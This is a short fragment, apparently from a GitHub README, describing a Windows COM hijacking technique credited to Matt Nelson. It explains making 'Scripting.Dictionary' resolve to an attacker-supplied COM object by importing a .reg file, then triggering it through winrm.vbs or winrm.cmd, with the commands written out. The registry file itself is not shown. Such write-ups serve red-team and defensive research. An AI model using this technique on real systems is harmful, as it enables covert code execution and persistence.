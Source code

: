 Here, we can use Winrm.vbs to hijack COM by making "Scripting.Dictionary" invokes COM file in registry, Scripting.Dictionary is often refers to ProgID.


Instructions:

```

C:\>reg import "file.reg"
The operation completed successfully.

C:\>start C:\Windows\System32\winrm.vbs
Or 
C:\> start C:\Windows\System32\winrm.cmd

C:\>
```


![21312313](https://user-images.githubusercontent.com/25440152/58567597-7876f080-81e7-11e9-971b-6362f2db1247.PNG)



### Author
* [Matt Nelson ](https://twitter.com/enigma0x3)
